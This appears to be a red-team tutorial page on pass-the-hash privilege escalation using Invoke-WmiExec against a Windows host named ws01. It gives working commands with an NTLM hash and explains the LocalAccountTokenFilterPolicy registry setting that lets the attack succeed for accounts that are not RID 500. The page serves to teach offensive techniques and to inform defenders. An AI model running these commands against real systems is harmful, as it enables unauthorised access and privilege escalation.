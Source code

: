 # Pass The Hash: Privilege Escalation with Invoke-WMIExec

## Execution

If you have an NTLMv2 hash of a local administrator on a box ws01, it's possible to pass that hash and execute code with privileges of that local administrator account:

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username administrator -command hostname
```

Below shows how the user `low` is not a local admin, passes the hash of the local `administrator` account on ws01 and executes a command successfully:

![](../../.gitbook/assets/image%20%28146%29.png)

## RID != 500 - No Pass The Hash for You

Say you have a hash of the user spotless who you know is a local admin on ws01:

![](../../.gitbook/assets/image%20%288%29.png)

...but when you attempt passing the hash, you get access denied - why is that?

![](../../.gitbook/assets/image%20%28120%29.png)

It may be because hashes for accounts that are not RID=500 \(not default administrator accounts\) are stripped of some privileges during the token creation.

![](../../.gitbook/assets/image%20%28159%29.png)

![](../../.gitbook/assets/image%20%2851%29.png)

If the target system you are passing the hash to, has the following registry key/value/data set to 0x1, pass the hash will work even for accounts that are not RID 500:

```text
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

![](../../.gitbook/assets/image%20%2831%29.png)

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username spotless -command hostname
```

![](../../.gitbook/assets/image%20%2829%29.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}

